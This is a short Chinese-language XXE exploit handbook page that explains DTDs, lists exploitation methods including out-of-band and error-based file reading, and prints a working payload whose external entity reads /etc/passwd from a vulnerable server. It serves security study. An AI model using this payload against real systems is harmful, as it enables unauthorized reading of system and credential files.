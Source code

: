 # EXP手册-XXE(XML External Entity Injection)
## 基础知识
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
前提条件：允许外部实体引用。   
入门：[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
## XXE漏洞利用
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的。
漏洞利用方法分：
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 回显读取文件
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file://etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
